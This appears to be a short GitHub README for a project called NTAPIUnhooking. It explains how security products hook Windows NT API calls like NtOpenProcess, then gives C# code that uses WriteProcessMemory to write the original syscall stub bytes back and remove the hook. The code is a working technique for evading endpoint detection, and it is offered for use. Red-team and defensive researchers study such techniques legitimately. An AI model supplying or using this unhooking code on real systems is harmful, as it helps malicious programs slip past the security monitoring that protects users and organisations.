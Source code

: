 # NTAPIUnhooking

## What is API Hooking?
Various security solutions assign a hook (API Hooking) to various Win32 API calls that are used for malicious purposes to tell if these calls are legitimate or not. This changes the execution flow of the normal API instruction to a custom module controlled by the solution itself that will perform further analysis to the API call.

Here is an example with an NT API definition (NtOpenProcess):

![](https://raw.githubusercontent.com/Janrdrz/NTAPIUnhooking/refs/heads/main/assets/1.jpg)

This is how a security solution hooks the API:

![](https://raw.githubusercontent.com/Janrdrz/NTAPIUnhooking/refs/heads/main/assets/2.jpg)

To return it to the original definition, we can write the original bytes back by applying memory patching.

```csharp
/*
    * 0x4C, 0x8B, 0xD1 = mov r10, rcx
    * 0xB8, 0x26, 0x00, 0x00, 0x00 = mov eax, 26
*/
byte[] NtOpenProcessWrite = { 0x4C, 0x8B, 0xD1, 0xB8, 0x26, 0x00, 0x00, 0x00 };

if (!WriteProcessMemory(Win32.GetCurrentProcess(), nopAddress, NtOpenProcessWrite, 8, out bytesout))
{

    Console.WriteLine("[-] NtOpenProcess unhooking failed!");
    return;
}
Console.WriteLine("[+] NtOpenProcess unhooking succeded!");
```

And voilà!

![](https://raw.githubusercontent.com/Janrdrz/NTAPIUnhooking/refs/heads/main/assets/3.jpg)
